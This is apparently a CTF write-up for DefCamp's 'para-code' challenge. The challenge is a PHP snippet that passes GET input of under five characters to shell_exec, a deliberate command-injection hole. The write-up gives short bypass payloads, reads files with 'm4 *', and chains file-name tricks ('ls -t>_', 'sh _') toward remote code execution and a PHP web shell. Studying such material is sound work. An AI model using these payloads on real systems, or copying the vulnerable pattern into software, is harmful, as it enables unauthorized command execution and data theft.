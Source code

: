 # DefCamp CTF - para-code

## Description
Command injecion 4 characters limited
```php
if (strlen($_GET['start']) < 5){
  echo shell_exec($_GET['start']);
}
```

If we can inject `cat *`, we could read all files in the directory but this command has 5 characters so it's doesn't work.

## Bypass black-listed
**Search**: 
php tricks hacktricks: https://book.hacktricks.xyz/pentesting/pentesting-web/php-tricks-esp

bypass bash restrictiosn: https://book.hacktricks.xyz/linux-unix/useful-linux-commands/bypass-bash-restrictions

**Bypassed
```
'l's # flag.php, index.php
l''s # still good
p\s # processes
env
```

## Bypass using short command of cat

**Search**: 
Linux two letters command: https://www.davekb.com/browse_computer_tips:linux_two_letter_commands:txt

```bash
# using m4(same as cat)
m4 *
```
Remember to check the `source-code` of the result

**flag**: `791b21ee6421993a8e25564227a816ee52e48edb437909cba7e1e80c0579b6be`

## Extended to RCE

**In bash, write file input from stdin**:
```bash
>cmd.php
#> <?php system('id'); ?>
cat cmd.php # <?php system('id'); ?>
```

**From that, we got**:
```bash
>php # newline - end command here!
>ex.\\
>ind\\
>\ \\
>cat\\

ls -t>_ # sort by time, in real senario, we have to write a file for this task, just like below

sh _
# hello
```

`_` file:
```bash
cat _
#_            error command/not command raise error but still being ignored and keep running!!
#cat\
# \
#ind\
#ex.\
#php
#index.php
```

# References:
https://github.com/orangetw/My-CTF-Web-Challenges#babyfirst-revenge-v2
